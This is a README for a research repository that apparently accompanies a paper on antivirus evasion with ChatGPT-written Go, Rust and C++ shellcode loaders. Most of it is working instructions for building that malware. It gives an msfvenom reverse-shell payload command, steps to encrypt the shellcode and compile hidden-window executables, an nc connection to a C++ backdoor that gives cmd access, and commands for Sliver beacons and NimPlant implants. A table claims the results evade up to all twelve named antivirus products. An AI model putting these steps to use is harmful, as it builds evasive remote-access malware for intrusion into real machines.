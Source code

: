 <!-- ABOUT THE PROJECT -->
## About The Project

This project was created to share our code that is mentioned in the following paper. In this repository, we included only the relevant Go, Rust, and C++ code that was created by ChatGPT.


### Built With

This section lists all major frameworks/libraries used to create this project. 
1. Go 1.19.5
2. Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Python 3.10
4. pycryptodomex


<!-- GETTING STARTED -->
## Getting Started




### Requirements
1. Install Go 1.19.5
2. Install Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Install Visual Studio 2022 (Rust + C++)
4. Install C++ dependencies from Visual Studio 2022
5. Install Visual Studio Code (Go)
6. Install Python 3.10
7. Install pycryptodomex



<!-- USAGE EXAMPLES -->
## Usage
### For Go
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f go 
2. Remove "0x" and new line values
3. Place the shellcode in the encryptGo.go file
4. Execute the code
5. Take the encrypted shellcode and place it in the decryptGo.go file
6. Compile the Go file to retrieve the .exe with the following command
```
go build -ldflags -H=windowsgui decryptGo.go
```

### For Rust
1. Place the shellcode.bin file to the same directory as with the encryptPython.py
2. Execute 
```
python encryptPython.py
```
to generate necessary files
3. Compile the code to retrieve the exe file
```
cargo build --release
```
Note: If you want to use Rust with two loaders, after encrypting the first binary file, edit the encryptPython.py file, to change the output name of the second binary file, as explained in the relevant Python comments. If you want to use only one loader, simply comment out the irrelevant code lines, as these have been noted in different comments in the Rust code.

### For C++ (ChatGPT)
1. Create a WindowsApplication dummy project in Visual Studio 2022
2. Change debug to release
3. Choose the proper port.
4. Compile the code to generate the exe file
5. Connect from a Linux host with the following command
```
nc IP PORT
```
If everything is working correctly, you should receive a "Connection Established!" message and be able to execute cmd commands to receive their response. If this message was not received, check if this port is open for inbound traffic in the Windows Firewall settings. If not, simply add a firewall rule to allow this traffic.

Note: If you want to use random generated files, execute the following command
```
head -c 90M </dev/urandom > file-2
```
With "file-2" the name of the output file, and "90M" is the file size. You can generate and include as many files as you like.

Also, Rust code requests a binary file to load into the process, while Go code loads a simple shellcode. So, to export such a file from Nimplant, execute:
```
python NimPlant.py compile
```
While, to generate such a file from Sliver, execute:
```
generate beacon --mtls IP --os windows --disable-sgn -f shellcode --skip-symbols --timeout 10
```
And start the "mtls" listener, by executing:
```
mtls
```

## Receiving connection
To be able to capture the response of these executables, I used two C2 servers, namely Sliver, and Nimplant. Along with Metasploit, which was used for . 

## AV Evasion
The following table refers to the executables with the best evasion rate from the study. This means that all these three executables had included randomly generated files, use the provided code, and for the Rust code, implemented both loaders.

|  AV | Go | Rust | C++ |
|---|---|---|---|
|Avast|✗|  ✓ |  ✗ |
|AVG |  ✗ |  ✓ |  ✗ |
|  Avira|  ✓ | ✓  |  ✓ |
|  MS Defender |  ✓ | ✓  | ✓  |
|  Webroot | ✓  |  ✓ | ✓ |
|  Eset |  ✗ |  ✓ |  ✓ |
|  BitDefender |  ✗ | ✓  | ✓ |
| Kaspersky |  ✓ |✓   |✗ |
| Sophos |  ✓ |  ✓ | ✓ |
| MalwareBytes |  ✓ |  ✓ | ✓ | 
| McAfee |  ✓ | ✓  | ✓  |
| Norton |  ✓ | ✓  |  ✓ |
| Results| 8/12| 12/12| 9/12|

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information. The relevant code is provided only for educational purposes and authorized audits. Use it at your own risk.



<!-- CONTACT -->
## Contact

Efstratios Chatzoglou -  efchatzoglou@gmail.com 


<!-- ACKNOWLEDGMENTS -->
## Acknowledgments
I would like to thank the users that created the following three repositories, which they assisted into creating this one. The Go code is forked from https://github.com/sezzle/simpleGoAES, and https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/CreateProcess and the Rust code from https://github.com/cr7pt0pl4gu3/Pestilence.

